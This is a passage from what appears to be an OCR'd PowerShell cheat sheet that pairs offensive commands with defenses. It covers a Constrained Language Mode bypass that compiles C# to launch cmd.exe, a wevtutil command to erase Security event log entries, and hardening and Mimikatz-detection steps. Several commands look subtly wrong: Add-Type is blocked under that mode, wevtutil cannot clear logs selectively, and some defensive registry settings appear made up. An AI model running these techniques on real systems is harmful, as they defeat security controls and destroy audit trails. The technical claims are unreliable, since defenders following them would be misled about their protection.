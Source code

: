 ### **9. Privilege Escalation (CLM Bypass)**  
#### **Offensive Command**  
```powershell  
# Escape Constrained Language Mode  
Add-Type -TypeDefinition @'  
using System;  
public class CLMBypass { public static void Main() { System.Diagnostics.Process.Start("cmd.exe"); } }  
'@  
[CLMBypass]::Main()  
```  
- **Purpose**: Bypasses PowerShell’s security modes.  

#### **Defense**  
- Enforce **Constrained Language Mode**:  
  ```powershell  
  $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
  ```  

---

### **10. Log Tampering**  
#### **Offensive Command**  
```powershell  
# Clear specific event log entries (stealthy)  
wevtutil.exe cl Security /q:"*[System[(EventID=4688)]]"  
```  
- **Purpose**: Deletes logs for Event ID 4688 (process creation).  

#### **Defense**  
- Forward logs to a SIEM:  
  ```powershell  
  Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\EventLog\Forwarding" -Name "ForwardingEnabled" -Value 1  
  ```  

---

### **Key Defensive Strategies**  
1. **Harden PowerShell**:  
   ```powershell  
   Set-ExecutionPolicy Restricted; $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"  
   ```  
2. **Enable Advanced Logging**:  
   ```powershell  
   Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1  
   ```  
3. **Deploy EDR/XDR**: Tools like **Microsoft Defender for Endpoint** or **CrowdStrike Falcon**.  
4. **Monitor Process Creation**:  
   ```powershell  
   Get-WinEvent -LogName Security -FilterXPath '*[System[EventID=4688]]' | Where-Object { $_.Message -match "Invoke-Mimikatz" }  
   ```  

---